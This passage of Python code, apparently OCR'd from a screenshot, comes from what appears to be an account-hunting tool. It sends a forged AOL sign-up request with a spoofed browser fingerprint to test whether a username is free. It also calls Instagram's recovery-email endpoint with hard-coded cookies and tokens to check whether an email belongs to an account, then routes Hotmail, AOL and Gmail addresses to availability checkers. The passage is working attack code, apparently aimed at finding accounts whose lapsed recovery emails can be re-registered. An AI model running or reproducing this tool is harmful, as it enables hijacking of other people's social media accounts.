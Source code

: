 			data = f'browser-fp-data=%7B%22language%22%3A%22en-US%22%2C%22colorDepth%22%3A24%2C%22deviceMemory%22%3A8%2C%22pixelRatio%22%3A1%2C%22hardwareConcurrency%22%3A4%2C%22timezoneOffset%22%3A-60%2C%22timezone%22%3A%22Africa%2FCasablanca%22%2C%22sessionStorage%22%3A1%2C%22localStorage%22%3A1%2C%22indexedDb%22%3A1%2C%22cpuClass%22%3A%22unknown%22%2C%22platform%22%3A%22Win32%22%2C%22doNotTrack%22%3A%22unknown%22%2C%22plugins%22%3A%7B%22count%22%3A5%2C%22hash%22%3A%222c14024bf8584c3f7f63f24ea490e812%22%7D%2C%22canvas%22%3A%22canvas%20winding%3Ayes~canvas%22%2C%22webgl%22%3A1%2C%22webglVendorAndRenderer%22%3A%22Google%20Inc.%20(Intel)~ANGLE%20(Intel%2C%20Intel(R)%20HD%20Graphics%204000%20(0x00000166)%20Direct3D11%20vs_5_0%20ps_5_0%2C%20D3D11)%22%7D%2C%22adBlock%22%3A0%2C%22hasLiedLanguages%22%3A0%2C%22hasLiedResolution%22%3A0%2C%22hasLiedOs%22%3A0%2C%22hasLiedBrowser%22%3A0%2C%22touchSupport%22%3A%7B%22points%22%3A0%2C%22event%22%3A0%2C%22start%22%3A0%7D%2C%22fonts%22%3A%7B%22count%22%3A33%2C%22hash%22%3A%22edeefd360161b4bf944ac045e41d0b21%22%7D%2C%22audio%22%3A%22124.04347527516074%22%2C%22resolution%22%3A%7B%22w%22%3A%221600%22%2C%22h%22%3A%22900%22%7D%2C%22availableResolution%22%3A%7B%22w%22%3A%22860%22%2C%22h%22%3A%221600%22%7D%2C%22ts%22%3A%7B%22serve%22%3A1704793094844%2C%22render%22%3A1704793096534%7D%7D&specId={specId}&cacheStored=&crumb={crumb}&acrumb={acrumb}&sessionIndex={sessionIndex}&done=https%3A%2F%2Fwww.aol.com&googleIdToken=&authCode=&attrSetIndex=0&specData={specData}&multiDomain=&tos0=oath_freereg%7Cus%7Cen-US&firstName=&lastName=&userid-domain=yahoo&userId={ex}&password=&mm=&dd=&yyyy=&signup='
		
			response = pp('https://login.aol.com/account/module/create', params=params, headers=headers, data=data, cookies=cookies).text
			if '{"errors":[{"name":"firstName","error":"FIELD_EMPTY"},{"name":"lastName","error":"FIELD_EMPTY"},{"name":"birthDate","error":"INVALID_BIRTHDATE"},{"name":"password","error":"FIELD_EMPTY"}]}' in response:
			    hits+=1
			    username, jj = ex, 'aol.com'
			    INFO(username, jj)
			    ply()
			else:
			    bad+=1
			    ply()
		except Exception as e:print(e)
	def CCINSTA(email):
		global bad2, gig
		
		try:
				headers = {
				    'User-Agent': str(uu()) ,
				    'Cookie': 'mid=ZVfGvgABAAGoQqa7AY3mgoYBV1nP; csrftoken=9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
				    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
				}
				data = {
				    'signed_body': '0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.' + json.dumps({
				        '_csrftoken': '9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
				        'adid': ExI ,
				        'guid': ExI ,
				        'device_id': ExI ,
				        'query': email
				    }),
				    'ig_sig_key_version': '4',
				}
				response = pp('https://i.instagram.com/api/v1/accounts/send_recovery_flow_email/', headers=headers, data=data).text
				if 'ok' in str(response):
					gig += 1
					ply()
					if '@hotmail.com' in email:
						CCHOT(email)
					elif '@aol.com' in email:
						CCAOL(email)
					elif '@gmail.com' in email:
						CCGMAIL(email)
				else:
					bad2+=1
					ply()